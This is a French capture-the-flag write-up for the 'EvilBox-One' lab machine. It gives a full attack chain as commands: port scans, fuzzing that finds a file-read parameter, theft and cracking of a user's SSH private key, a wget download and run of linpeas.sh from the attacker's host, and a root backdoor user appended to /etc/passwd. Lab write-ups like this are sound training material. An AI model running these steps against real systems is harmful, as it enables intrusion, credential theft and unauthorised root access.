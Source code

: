 # EvilBox-One

    sudo nmap -A -p1-10000 192.168.161.212
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.161.212 -e tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.161.212
    feroxbuster -u http://192.168.161.212

Scans classiques. 

Quasiment rien d'intéressant à part un dossier /secret que j'ai décidé d'énumérer également :

    ffuf -u http://192.168.161.212/secret/FUZZ -w  /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt  -e .php,.php5,.txt,.ini,.conf,.log,.html,.js,.bak,.aspx,.asp -fc 403

On voit qu'il contient un fichier **"evil.php"** mais ce dernier est complètement vide aussi. J'ai bloqué pendant un moment avant de voir, grâce à un indice, qu'il fallait également faire du fuzzing sur les paramètres de l'URL. Cela peut se déduire par élimination. Et il faut bien penser à essayer avec différents types de paramètres pour brosser un maximum de possibilités : du texte, des chiffres, un nom de fichier, etc.

    ffuf  -u http://192.168.161.212/secret/evil.php?FUZZ=aaaaa -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt  -fs 0
    ffuf  -u http://192.168.161.212/secret/evil.php?FUZZ=12345 -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt  -fs 0
    ...
    ffuf  -u http://192.168.161.212/secret/evil.php?FUZZ=/etc/passwd -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt  -fs 0

Les premières commandes ne donnent rien mais dans la dernière il y a un paramètre **"command"** qui nous sort une page web de taille supérieure à 0. Et en effet, en allant sur la page http://192.168.161.212/secret/evil.php?command=/etc/passwd on voit un contenu de fichier /etc/passwd affiché à l'écran.

En cherchant des utilisateurs qui ont un shell différent de **"/usr/sbin/nologin"** on voit un **"mowree"** et comme le paramètre ne marche pas avec les dossiers je me suis orienté vers la clé SSH. 

En visitant http://192.168.161.212/secret/evil.php?command=/home/mowree/.ssh/id_rsa on tombe bien sur la clé de cet utilisateur. Quand on essaye de se connecter en SSH, un mot de passe est demandé. La seule chose à faire est donc de tenter de casser la passphrase en espérant qu'elle soit assez faible. Et c'est le cas : 

    curl http://192.168.161.212/secret/evil.php?command=/home/mowree/.ssh/id_rsa -o  id_rsa
    ssh2john id_rsa > mowree.txt
    john mowree.txt

Attention à bien passer par la ligne de commande pour éviter les problèmes de format pour les clés.
Connexion au serveur avec la passphrase fraîchement obtenue : 

    chmod 600 id_rsa
    ssh  -l mowree -i  id_rsa 192.168.161.212
    cat local.txt

Élévation de privilèges classique, LinPEAS a trouvé que le fichier /etc/passwd était accessible en écriture et je peux donc me rajouter comme utilisateur :

    wget http://192.168.45.199/linpeas.sh
    chmod u+x linpeas.sh  
    ./linpeas.sh | tee linpeas.txt
    less -R linpeas.txt
	...
	openssl passwd -1 mdp123
    echo 'tim:$1$32DcXeSt$KWQS4pZ0.TchxHMtQoYCM0:0:0:/root/:/bin/bash' >> /etc/passwd
    su tim
    ls /root
    cat /root/proof.txt
